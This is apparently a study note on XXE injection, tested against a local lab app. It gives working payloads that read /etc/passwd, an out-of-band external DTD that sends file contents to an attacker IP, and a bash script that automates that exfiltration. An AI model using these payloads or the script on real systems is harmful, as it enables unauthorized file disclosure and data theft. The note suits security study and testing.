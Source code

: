 
# XML External Entity Injection

This vulnerability allow to use a malicious entry in XML to access local files or network services


----

## Playing with Entity
In a response XML you can play with Entities to exploit

Image that you have this request and obtain and output that represent the field email :

````xml
POST /process.php HTTP/1.1
Host: localhost:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: text/plain;charset=UTF-8
Content-Length: 188
Origin: http://localhost:5000
Connection: close
Referer: http://localhost:5000/
Cookie: session=eyJfY3NyZl90b2tlbiI6IjEwODhjZWY5LTA0NTctNDAyOC1hN2U2LTE2MjY5ZDE2YmRmMyIsInVzZXJuYW1lIjoic2VyZ2lvIn0.ZKf5OQ.lsRfGQCViG6at7ebf8Z7yMF8myQ
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

<?xml version="1.0" encoding="UTF-8"?>
<root>
	  <name>test</name>
	  <tel>123456789</tel>
	  <email>sergiky@sergiky.com</email>
	  <password>sergiky123</password>
</root>
````

You can **add an entity** to refer to the email

````xml
POST /process.php HTTP/1.1
Host: localhost:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: text/plain;charset=UTF-8
Content-Length: 188
Origin: http://localhost:5000
Connection: close
Referer: http://localhost:5000/
Cookie: session=eyJfY3NyZl90b2tlbiI6IjEwODhjZWY5LTA0NTctNDAyOC1hN2U2LTE2MjY5ZDE2YmRmMyIsInVzZXJuYW1lIjoic2VyZ2lvIn0.ZKf5OQ.lsRfGQCViG6at7ebf8Z7yMF8myQ
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo[<!ENTITY myName "sergiky">]>
<root>
	  <name>test</name>
	  <tel>123456789</tel>
	  <email>&myName;</email>
	  <password>sergiky123</password>
</root>
````

When you check that this work, you can check internal files with this wrapper:

> file://etc/passwd

This wrapper represent in the same line the information in base64:

> php://filter/convert.base64-encode/resource=/etc/passwd

````xml
POST /process.php HTTP/1.1
Host: localhost:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: text/plain;charset=UTF-8
Content-Length: 188
Origin: http://localhost:5000
Connection: close
Referer: http://localhost:5000/
Cookie: session=eyJfY3NyZl90b2tlbiI6IjEwODhjZWY5LTA0NTctNDAyOC1hN2U2LTE2MjY5ZDE2YmRmMyIsInVzZXJuYW1lIjoic2VyZ2lvIn0.ZKf5OQ.lsRfGQCViG6at7ebf8Z7yMF8myQ
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo[<!ENTITY myFile SYSTEM "file:///etc/passwd">]>
<root>
	  <name>test</name>
	  <tel>123456789</tel>
	  <email>&myFile;</email>
	  <password>sergiky123</password>
</root>
````

-----

## XXE OOB ( XXE Out of band interaction)

Like blind XXE
This is when you don't see the output in the response or the web page don't allow you to put entities.

To do this attack you have to load a external DTD (for example is host in your attacker machine))

1. Check if you can load a entity if this not respond well try to load in a external dtd

2. Indicating the server with the file in the request:

````xml
<!DOCTYPE foo[<!ENTITY xxe SYSTEM "http://172.21.7.214/malicious.dtd">]>
````

3. You can call the file in the declaration with **%**

````xml
<!DOCTYPE foo[<!ENTITY % xxe SYSTEM "http://172.21.7.214/malicious.dtd"> %xxe; ]>
````

4. The malicious.dtd while be this:
````dtd
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://172.21.7.214/?file=%file;' >">
%eval;
%exfil;
````

`&#x25;` --> Way to represent % in hexadecimal

You can automatize this with an script in bash:

````bash
#!/bin/bash

echo -ne "\n[+] Introduce el archivo a leer: "; read -r myFileName

malicious_dtd="""
<!ENTITY % file SYSTEM \"php://filter/convert.base64-encode/resource=$myFileName\">
<!ENTITY % eval \"<!ENTITY &#x25; exfil SYSTEM 'http://172.21.7.214/?file=%file;' >\">
%eval;
%exfil;"""

echo $malicious_dtd > malicious.dtd


sudo python3 -m http.server 80 &>response &

PID=$!

sleep 1; echo

curl -s -X POST "http://localhost:5000/process.php" -d '<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo[<!ENTITY % xxe SYSTEM "http://172.21.7.214/malicious.dtd"> %xxe; ]>
<root>
          <name>test</name>
          <tel>123456789</tel>
          <email>test@test.com</email>
          <password>sergiky123</password>
</root>' &>/dev/null

cat response | grep -oP "/?file=\K[^.*\s]+" | base64 -d

kill -9 $PID
wait $PID 2>/dev/null

rm response 2>/dev/null
````

-------

# Tags

#xxs #wrappers #bash 


----